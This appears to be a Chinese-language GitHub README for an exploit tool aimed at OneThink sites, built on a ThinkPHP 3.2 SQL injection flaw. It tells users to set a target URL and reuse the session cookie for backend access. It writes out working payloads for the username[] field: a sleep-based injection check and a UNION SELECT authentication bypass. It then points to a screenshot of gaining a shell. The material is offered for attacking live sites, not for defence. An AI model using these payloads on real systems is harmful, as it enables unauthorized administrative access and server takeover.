 # onethink_rce


十一假期看到的文章https://forum.90sec.com/t/topic/464

原理其实还是p牛发的那个thinkphp3.2注入漏洞，于是又简单的分析了一下。

写了一下利用工具。


需要注意的地方：
1、url = "http://www.xxx.com"    不解释  
2、print(s.cookies)              如果登录成功，那么这个打印出来的cookie就有用，替换cookie即可进入后台
3、payload 中的 ('username[]','like 1)and 1 in (2) or sleep(5)#'),  为注入漏洞的延时检测。
               ('username[]','like 1)and 1 in (2) union select 1,2,"",4,5,6,7,8,9,10,11#'), 为绕过验证登录语句
               字段数默认为11，我也见过13的。大家自行修改。
               

GETSHELL：
[](https://github.com/yuxiaokui/onethink_rce/blob/master/getshell.jpeg?raw=true)
